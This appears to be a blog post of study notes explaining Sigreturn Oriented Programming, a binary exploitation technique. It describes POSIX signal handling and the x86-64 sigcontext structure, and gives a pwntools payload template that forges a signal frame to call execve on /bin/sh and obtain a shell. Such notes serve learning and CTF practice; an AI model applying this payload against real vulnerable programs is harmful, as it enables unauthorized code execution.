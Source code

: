 ```yaml
---
layout: post
title: Sigreturn Oriented Programming
description:
date: 2025-10-13
categories:
  - notes
  - rop
tags:
  - srop
---
```


# Sigreturn Oriented Programming. 

`SROP` (Sigreturn Oriented Programming) is binary exploitation technique that leverages the signal handling mechanisms in `POSIX` systems to gain control over CPU registers. This is achieved by crafting a fake signal frame on the stack and then invoking the `sigreturn` system call. 

## The signal handling mechanism 

`SROP` exploits the process used by `POSIX` systems to handle signals. This process works as follows: 
1. When a signal occurs, context switch is performed.
2. The context switch saves the current state of execution by pushing all CPU registers and additional data onto the stack.
3. Once the signal has been handled, the `sigreturn` system call is invoked, which restores the CPU register values from the data saved on the stack.

Here are the structures involved:

-  `struct sigcontext`
	- This structure is a component of the `sigframe`. It stores the values of the CPU registers and their flag.
	- The structure definition and layout depend on specific architecture and operating system. 

on `x86-64`, the structure contains:

```c
struct sigcontext {
    uint64_t r8, r9, r10, r11, r12, r13, r14, r15;
    uint64_t rdi, rsi, rbp, rbx, rdx, rax, rcx, rsp;
    uint64_t rip, eflags;
    uint16_t cs, gs, fs;
    uint64_t err, trapno, oldmask, cr2;
    void *fpstate;
    uint64_t reserved[8];
};
```

## Exploitation

`SROP` involves two main stages once you have control of the return address
1. Triggering the `sigreturn` system call.
2. Providing a fake signal frame.

Payload example

```python
# stage1 trigger the sigreturn syscall
stage1 = flat(
	cyclic(offset_to_rip), # padding to return addres
	pop_rax, # pop rax; ret 
	0xf, # sigreturn number in x64 or 0x77 for x86
	syscall, # syscall gadget
)
# stage to fake signal frame
# pwntools makes it easy to setup the signal frame
stage2 = SigreturnFrame()
stage2.rax = 59 # for execve
stage2.rdi = binsh # address of "/bin/sh"
stage2.rsi = 0
stage2.rdx = 0
stage2.rip = syscall # syscall gadget

payload = flat(
	stage1,
	stage2
)
```

The above payload will get you a shell. 
### When to use SROP

- When you have limited gadgets.
- Can control stack. (Buffer overflow)
- When you have `pop rax` and `syscall` gadgets
- Need to set up multiple registers


